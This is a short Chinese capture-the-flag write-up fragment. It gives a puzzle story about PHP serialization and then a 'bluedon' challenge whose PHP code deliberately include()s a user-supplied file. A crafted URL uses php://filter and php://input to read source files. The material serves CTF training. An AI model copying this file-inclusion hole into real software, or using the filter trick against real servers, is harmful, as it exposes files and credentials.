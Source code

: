 ```html
bdctf--密室谋杀案
这是一场发生在PHP序列化密室里面的谋杀案，今日这里发生了一起密室谋杀案，有一个名叫flag的人被杀害。案发现场发生在这个家里面，然而flag他的尸体被嫌疑人藏匿了起来,无法获得更多被害人的信息。 作案的嫌疑人在这个屋子里面，在这屋子里面的人有三兄弟和一个侦探 ，三兄弟中老大Ford权威最高，其他兄弟都在它的保护下生活,因为三兄弟的勤劳勇敢也经常被其他人调去工作任劳任怨。二哥Walker性格生性好动，喜欢结交朋友也经常找老三帮忙。 老三David为人老实憨厚，和二哥关系最好却有一天因为某件事情离开了这个家,成立了另外一个家。还有就是侦探，侦探wesley他案发当天也在现场，他似乎知道些什么但似乎迫于某种压力没有说出凶手是谁。 只要你收集足够多三兄弟的信息给wesley，相信他会说出真相。
```

#### bluedon用户[x]

> 格式，bdctf{xxxxx}
> http://11537c131de3f8b2060b36c0cf7eb083.yogeit.com:8080

```php
//index.php
you are not bluedon ! 
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];

if(isset($user)&&(file_get_contents($user,'r')==="the user is bluedon")){
    echo "hello bluedon!<br>";
    include($file); //class.php
}else{
    echo "you are not bluedon ! ";
}
 -->
   
//class.php
//view-source:http://11537c131de3f8b2060b36c0cf7eb083.yogeit.com:8080/?file=php://filter/convert.base64-encode/resource=class.php&user=php://input

the user is bluedon
<?php
class Read{//f1a9.php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "恭喜get flag";
    }
}
?>
```

